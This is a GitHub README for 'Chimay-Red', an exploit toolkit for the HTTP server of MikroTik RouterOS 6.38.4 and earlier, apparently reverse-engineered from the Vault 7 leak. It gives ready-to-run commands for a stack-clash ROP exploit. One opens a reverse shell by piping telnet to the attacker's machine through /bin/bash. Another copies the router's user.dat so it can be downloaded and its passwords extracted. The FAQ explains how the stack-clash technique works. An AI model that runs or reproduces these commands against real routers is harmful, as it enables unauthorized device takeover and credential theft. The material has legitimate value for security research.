# Chimay-Red
Reverse engineering of Mikrotik exploit from Vault 7 CIA Leaks  

See the PDF for more info 

# Vulnerable versions  
Until RouterOS 6.38.4  

What's new in 6.38.5 (2017-Mar-09 11:32):  
!) www - fixed http server vulnerability;

# Proof of concepts
## CrashPOC  
Simple crash sending -1 as content-length in post header 

## StackClashPOC  
Stack clash exploit using two threads, missing ROP chain

## StackClashROPSystem  
Stack clash exploit using two threads  with ROP chain to run bash commands  

### For a reverse shell:  
```
$ nc -l -p 1234
$ ./StackClashROPsystem.py 192.168.8.1 80 www_binary "/bin/mknod /ram/f p; /bin/telnet 192.168.8.5 1234 < /ram/f | /bin/bash > /ram/f 2>&1"
```
Where:  
- RouterOS IP: 192.168.8.1  
- PC IP: 192.168.8.5  

### To extract users and passwords
```
$ ./StackClashROPsystem.py 192.168.8.1 80 www_binary "cp /rw/store/user.dat /ram/winbox.idx"
$ wget http://192.168.8.1/winbox/index
$ ./extract_user.py index
```

As the ROP is dynamically created, you have to extract the `www` binary from the RouterOS firmware.   
(It's placed in `/nova/bin/`)  
Check that the running version is the same.  
To simplify extraction you can use:
```
$ ./getROSbin.py 6.38.4 x86 /nova/bin/www www_binary
```

## StackClashMIPS  
Stack clash exploit using two threads with ROP chain + shell code to run bash commands  
On mips version of www the stack is RWX, so we can jump to the stack.

You can run the same bash command as the x86 version.  
The exploit in NOT dinamically created, so in versions different from 6.38.4 may not works.  

### LCD  
Funny command  
```
$ ./StackClashMIPS.py 192.168.8.1 80 "echo hello world > /dev/lcd"
```

# FAQ
#### Where does one get the chimay-red.py file, that this tool kit relies on?  
This is a reverse engineering of leaked CIA documentation.  
There is no chimay-red.py publicly available.  

#### I can't understand how the stack clash work.
I'll update the PDF as soon as I have enough time, anyway:  
We know that:  
- each thread has 128KB of stack  
- each stack of each thread is stacked on the top of the previous thread.  

Thanks to Content-Length and alloca macro we can control the Stack Pointer and where the post data will be written.  
If we send a Content-Length bigger than 128KB to socket of thread A, the Stack Pointer will point inside the stack of another thread (B) and so the POST data (of thread A) will be written inside the stack of thread B (in any position we want, we only need to adjust the Content-Length value).  
So now we can write a ROP chain in the stack of thread B starting from a position where a return address is saved.  
When we close the socket of thread B, the ROP chain will start because the function that is waiting for data will return (but on our modified address).

The ROP chain that executes bash commands is using "dlsym" (present in the PLT) to find the address of "system".  
Once we have the address of system we construct the bash string looking for chunks of strings inside the binary and concatenating them in an unused area of memory.  
Then we return to the address of system passing as argument the address of the created bash string.  
